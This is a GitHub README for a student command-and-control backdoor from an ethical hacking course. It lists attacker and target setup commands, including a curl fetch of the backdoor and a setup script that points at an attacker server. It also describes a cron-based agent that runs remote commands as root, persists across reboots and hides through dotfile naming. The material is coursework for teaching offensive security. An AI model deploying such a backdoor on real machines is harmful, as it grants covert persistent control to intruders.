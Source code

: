 # Command-Control

## CS378 Ethical Hacking - Command and Control

David Trakhtengerts : dst726 and Ricky Woodruff : rgw664

## Install

### Attack Machine

1. Install dependencies

    ```bash
    pip3 install -r requirements.txt
    ```
2. Generate a key pair
    
    Keys should be in the same directory as the server

    ```bash
    openssl genrsa -out private.pem 1024
    openssl rsa -in private.pem -pubout -out public.pem
    ```
3. Create a `commands.txt` file and fill it with commands to run on the target machine. Each command should be on a new line.

    ```bash
    echo $'pwd\nwhoami\n' > foo
    ```
4. Run the flask server

    ```bash
    export FLASK_APP=attacker-server.py
    flask run --host={Server IP}
    ```


### Target Machine

1. Download the backdoor repo

    ```bash
    curl -L http://github.com/woodruffr4/Command-Control/archive/main.tar.gz | tar zxf -
    cd Command-Control-main/client
    ```
2. From the attacker machine, manually copy over the public key to the `/client` directory. The public key should be named `public.pem`.
    
3. Run the setup script

    ```bash
    chmod +x setup.sh
    ./setup.sh {Your Server Endpoint}
    # Example: ./setup.sh http://10.0.2.4:5000/commands
    ```



## How it works

There are two parts to this backdoor, the flask server on the attacker side and the cron job on the target side.

### Cron job

The cron job runs every minute and calls a python script which makes a request to the `/commands` endpoint on the flask server. The server returns a signature and commands to run. The signature will be verified using the public key and if it is valid, the commands will be run. The output of the commands is sent to a log file on the target machine.

### Flask Server

The flask server has one endpoint, `/commands`. This endpoint is used to send commands to the target machine.
The server reads the commands from a file `commands.txt`, and deletes the contents after (to avoid re-executing commands). It then signs the commands with a private key, and sends the signature along with the commands to the target machine.


## How it meets the requirements

1. Provide remote root shell access
    - The attacker can write commands in a file on a machine and the target machine will execute those commands.
2. Persistence
    - The target machine can reboot and this backdoor will persist automatically because by deault cron jobs are run on boot.
3. Configuration
    - The attacker can add commands to the file on their machine.
    - The attacker can configure the server ip and port where the commands come from.
4. Authentication
    - The attacker and target machines use a public/private key pair to authenticate each other.
    - Only the attacker who created the key pair will be able to send commands to the target machine.
5. Hiding
    - Cron job is only visible to root users
    - The script is hidden by a period in front of the file name

## Detection

- At the user level there is no way to detect this backdoor because users do not have access to the cron directory.
- Root users can see the cron job, .cron.py (if they look closely), and the log file.